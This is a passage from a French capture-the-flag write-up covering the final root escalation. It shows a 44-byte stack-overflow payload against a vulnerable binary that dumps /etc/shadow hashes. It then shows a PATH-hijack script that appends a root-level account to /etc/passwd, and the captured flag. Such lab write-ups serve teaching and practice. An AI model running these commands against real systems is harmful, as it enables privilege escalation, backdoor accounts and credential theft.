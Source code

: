 Il y a une variable nommée `flag` qui est initialisée à `0`. Elle n'est pas modifiée par le code, mais si elle devient `1` alors la fonction `secret` est appellée.

D'après les commentaires ajoutés par `Cutter`, le password lut est stocké à `stack - 0x38`, soit 56 octets dessous le stack pointer. Le flag est à `stack - 0xc` donc `-12`. Il y a `56 - 12` octets qui séparent les deux, soit 44 octets.

Si on écrit 44 octets, la suite écrasera la variable :

```console
localhost:~$ python3 -c 'print("\x00" * 44 + "\x01\x00\x00\x00")' | /opt/vuln
root:$6$W5FUwrTeo8vXfNot$qJazigaYSqk8ezVfjHckZb2XjxkrJsniQa5MA1o.j9apE1BMYX5vYuJVEJ2hYbNsR0q9IWOSSt1I40vNYxvKO0:20263:0:::::
bin:!::0:::::
daemon:!::0:::::
lp:!::0:::::
sync:!::0:::::
shutdown:!::0:::::
halt:!::0:::::
mail:!::0:::::
news:!::0:::::
uucp:!::0:::::
cron:!::0:::::
ftp:!::0:::::
sshd:!::0:::::
games:!::0:::::
ntp:!::0:::::
guest:!::0:::::
nobody:!::0:::::
klogd:!:20205:0:99999:7:::
chrony:!:20205:0:99999:7:::
ldz:$6$qCU7eP8wj/Pvo1FB$Ooou6p.TF3M/kMB29XrzQ6XVNbq7c46lGzNvRPOJ55GAXJ0h.jmbc8VHhGjFgwXLHPSbNt96l/rmUYgDqpo8Y0:20263:0:99999:7:::
nginx:!:20263:0:99999:7:::
```

On pouvait s'y attendre : le hash de `root` ne tombe pas avec `rockyou`. On peut exploiter le fait que le binaire appelle la commande `cat` sans chemin absolu :

```console
localhost:~$ echo -e '#!/bin/sh\necho devloop:ueqwOCnSGdsuM:0:0::/root:/bin/sh >> /etc/passwd' > cat
localhost:~$ chmod 755 cat
localhost:~$ export PATH=.:$PATH
localhost:~$ python3 -c 'print("\x00" * 44 + "\x01\x00\x00\x00")' | /opt/vuln
localhost:~$ su devloop
Password: 
/home/ldz # cd /root
~ # ls
root.txt
~ # cat root.txt
flag{98ecb90d5dcef41e1bd18f47697f287a}
```

CTF intéressant. J'ai perdu beaucoup de temps à cause de ce statut HTTP 400. Et sans l'aide d'une IA, résoudre la partie déchiffrement aurait été compliqué, en particulier si l'implémentation de XTEA prend quelques libertés sur l'original.
